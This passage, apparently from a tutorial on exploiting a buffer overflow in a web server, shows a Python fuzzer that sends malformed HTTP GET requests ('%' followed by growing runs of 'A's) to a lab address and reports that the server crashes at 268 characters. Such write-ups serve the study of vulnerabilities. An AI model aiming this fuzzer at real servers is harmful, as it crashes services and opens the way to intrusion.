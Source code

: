 
We can further explore this finding by writing custom fuzzer which would establish connection and send one "%" char and usual junk (for example sequence of "A"s):

```
#!/usr/bin/python

import socket
import time

host = "172.16.24.213"
port = 80

for x in range (1, 5000):
   buffer = "GET /%" + x * "A" + " HTTP/1.1\r\n"
   buffer += "Host: 172.16.24.212\r\nUser-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"

   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((host,port))
   s.send(buffer)
   s.close()
   print ("X="+str(x))
   time.sleep(0.5)
   x=x+1
```

After 268 chars, application crashes:

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/savant_2.png?raw=true)
